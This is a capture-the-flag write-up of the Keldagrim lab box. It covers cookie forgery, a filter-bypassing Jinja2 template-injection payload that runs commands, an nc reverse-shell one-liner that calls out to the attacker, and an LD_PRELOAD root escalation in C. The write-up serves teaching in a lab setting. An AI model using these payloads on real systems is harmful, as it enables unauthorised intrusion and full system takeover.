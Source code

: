 ## Keldagrim

# Enumeration
```
# Nmap 7.91 scan initiated Thu May  6 13:36:46 2021 as: nmap -sCV -oN nmap/initial -vvv -p 22,80 10.10.203.185
Nmap scan report for 10.10.203.185
Host is up, received timestamp-reply ttl 61 (0.14s latency).
Scanned at 2021-05-06 13:36:47 PDT for 12s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d8:23:24:3c:6e:3f:5b:b0:ec:42:e4:ce:71:2f:1e:52 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1ElGI0HLd8mhCV1HC0Mdnml4FZPMr17SrcABm6GMKV0g5e4wQNtSPAvXhGj696aoKgVX1jDbe4DzDGr3jDkLjXegnpqQyVQnSYV7Cz9pON4b9cplT/OPK/7cd96E7tKFsZ3F+eOM51Vm6KeYUbZG0DnHZIB7kmPAH+ongqQmpG8Of/wXNgR4ONc6dD/lTYWCgWeCEYT0ERlErkqM05mO9DwV+7Lr+AZhAZ8afx+NSpV17gBZzjmqT4my3zMAf3Ne0VY/exvb807YKiHmPPaieE8KxjfRjcsHGsMuYesDm3m0cUvGSdp2xfu8J5dOSNJc5cVse6RBTPmPu4giRtm+v
|   256 c6:75:e5:10:b4:0a:51:83:3e:55:b4:f6:03:b5:0b:7a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBETP4uMiwXXjEW/UWp1IE/XvhxASBN753PiuZmLz6QiSZE3y5sIHpMtXA3Sss4bZh4DR3hoP3OhXgJmjCJaSS4=
|   256 4c:51:80:db:31:4c:6a:be:bf:9b:48:b5:d4:d6:ff:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJVgfo2NhVXDfelQtZw0p6JWJLPk2/1NF3KRImlYIIul
80/tcp open  http    syn-ack ttl 61 Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-cookie-flags:
|   /:
|     session:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
|_http-title:  Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  6 13:36:59 2021 -- 1 IP address (1 host up) scanned in 12.68 seconds
```

Just ssh and a web server ports are open so lets check out the page.

#Web Server Port 80
A gold buying website for mmo's. We start by looking at the source code and pages before we try enumerating directories and subdomains with gobuster. We find a couple interesting things. Firstly a admin page that is grayed out from being selected but a link to is viewable in the source code at /admin. Going to it seems to simply put us on the home page, but maybe we have a session cookie we can manipulate to change this. We find a session cookie with the following value.
```
echo 'Z3Vlc3Q=' | base64 -d
guest
```
so lets convert admin to base64 and see if we see anything new. Sure enough admin is no longer grayed out and going to /admin gives us a page that says
```
Current user - $2,165
```

Seems pretty odd but its a static value in the source code, however we have a new cookie now called sales with the following value.
```
echo 'JDIsMTY1' | base64 -d
$2,165
```

Interesting lets test for XSS,
```
<script>alert('XSS')</script> -> base64-> PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

using this produce the following in the source code,
```
&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;
```

Looks like a filter on at least the following characters
```
<
>
'
```

I went ahead and tried to bypass this filter a few ways, but before I get too carried away here I want to look at the other thing I initially noticed.

there is a directory /static/images that has images stored for the page however when trying to load the directory itself something interesting occurs.
```

Error - Page Not Found

There has been an error when trying to view staticimages! Please return back to the site

```
The same occurs when trying to go to /static as well. So it seems like its the directories are restricted but it then tries to load it as a page as opposed to a directory and the / is being bypassed. So before we worry about the filter lets see if we have SSTI.

```
/${7*7}

There has been an error when trying to view ${7*7}! Please return back to the site

/{{7*7}}

There has been an error when trying to view 49! Please return back to the site

/{{7*'7'}}

There has been an error when trying to view 7777777! Please return back to the site
```

So we definitely have SSTI on likely a jinja2 or twig framework, but with some filters so lets switch over to burpsuite and use the following payload to try and bypass the filters
```
GET {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

There has been an error when trying to view uid=1000(jed) gid=1000(jed) groups=1000(jed)
```

Awesome, we have bypassed the filter and got the id command to execute so let's just take a normal reverse shell such as rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f, and then hex-encoded it with /x delimiters and try and replace the 'id' command with it. Sure enough we get a hit on our listener and we have a foothold

#Initial Foothold/Privilege Escalation
We get a shell as the jed user in their home directory and can find the user.txt flag here. Next we find the following,
```
jed@keldagrim:~$ sudo -l
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
```

ps doesn't have any entries on GTFObins however we can still run it as root with no password and in conjuction with LD_PRELOAD we can try the following privilege escalation method from 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#ld_preload-and-nopasswd

we first verify that gcc is on the system and then make the following shell.c file
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

then execute the following
```
jed@keldagrim:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:2: warning: implicit declaration of function ‘setgid’; did you mean ‘setenv’? [-Wimplicit-function-declaration]
  setgid(0);
  ^~~~~~
  setenv
shell.c:7:2: warning: implicit declaration of function ‘setuid’; did you mean ‘setenv’? [-Wimplicit-function-declaration]
  setuid(0);
  ^~~~~~
  setenv
jed@keldagrim:~$ sudo LD_PRELOAD=/home/jed/shell.so ps
# cd /root
# ls -la
total 28
drwx------  4 root root 4096 Dec  4 22:22 .
drwxr-xr-x 24 root root 4096 Dec  4 19:38 ..
lrwxrwxrwx  1 root root    9 Dec  4 22:21 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Dec  4 22:09 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Dec  4 22:15 root.txt
drwx------  2 root root 4096 Nov  9 00:57 .ssh
```

We successfully have root access and claim our root.txt flag! Thinking back we could have explored using the cookie to execute SSTI instead of XSS and likely would have been able to use a similar payload to extract information and establish a foothold.
